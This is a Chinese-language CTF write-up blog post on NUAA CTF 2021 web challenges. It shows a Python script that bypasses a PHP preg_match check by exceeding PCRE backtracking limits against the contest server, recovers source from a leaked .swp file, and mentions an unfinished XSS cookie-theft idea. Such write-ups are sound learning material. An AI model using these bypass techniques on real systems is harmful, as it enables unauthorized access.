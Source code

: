 ```yaml
---
title: NUAA CTF 2021 Web Write up
date: 2021-04-10 20:23:04
categories:	CTF
tags: 
  - CTF
  - WP 
description: 第一场正式的的CTF比赛WP
sticky:
keywords:
cover:
---
```


# NUAA CTF 2021 Web Write up

## 签到题
打开环境，查看网页源代码，即发现flag
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328195900666.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_20,color_FFFFFF,t_70)


## DDoSme
打开环境，提示Do you kNow .swp file? 直接百度，查到
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328204502583.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_64,color_FFFFFF,t_70)

于是知道会要用到Linux
用dirsearch扫一下网站目录，发现了.index.php.swp文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328204551203.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_64,color_FFFFFF,t_70)


地址栏URL后面输入`.index.php.swp`下载swp文件
这个时候用notepad打开发现全是乱码，百度发现
![](https://img-blog.csdnimg.cn/20210328200950634.png)

于是复制到Linux虚拟机中，

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328204652570.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_64,color_FFFFFF,t_70)


再
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328201104698.png)

得到还原后的PHP文件

```php
<?php
function areyouok($greeting){
    return preg_match('/Baby.*PHP/is',$greeting);
}

$greeting=@$_POST['greeting'];
if(!is_array($greeting)){
    if(!areyouok($greeting)){
        if(strpos($greeting,'Baby PHP')!==false){
            echo 'flag{xxxxxx}';
        }else{
            echo 'Do you kNow .swp file?';
        }
    }else{
        echo 'Do you know PHP?';
    }
}
?>

```
emmm…PHP学的还不多，看不懂，果断度娘，发现……竟然跟18年i春秋圣诞欢乐赛题一样…原理就是pcre具有回溯上限，当回溯超过上限时返回 false，从而绕过正则匹配函数(虽然俺不懂，但俺会CV大法)
链接:[2018年i春秋圣诞欢乐赛Web WP](https://www.jianshu.com/p/68f3c8e5d2b4)
然后通过Python写个脚本：

```python
import requests
from io import BytesIO

files = {
  'greeting':('Baby PHP' + 'a' * 1000000)
}

res = requests.post('http://server.cooook.icu:10003/index.php', data=files, allow_redirects=False)
print(res.text)
```
运行之后，成功拿到flag

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328204722851.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_32,color_FFFFFF,t_70)


## easy_xss
看题目知道是xss跨站脚本漏洞攻击
题目要求是：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328201752270.png)
扫了下网站
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328201935905.png)
看到了upload.php，试了一下emmm确实打不开
所以要登入管理员界面，xss攻击，想到了窃取cookie绕过登录，
而且正好点开Read sample post出现了管理员发表的文章

然后..就卡住了(っ °Д °)っ
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328204809754.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_64,color_FFFFFF,t_70)


## base64

![在这里插入图片描述](https://img-blog.csdnimg.cn/2021032821021262.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_32,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328210244539.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_48,color_FFFFFF,t_70)
emmm……PHP，Base64，这俩合一起....看了度娘都看不懂...毫无思路


比完赛，感觉 我是废物（；´д｀）ゞ
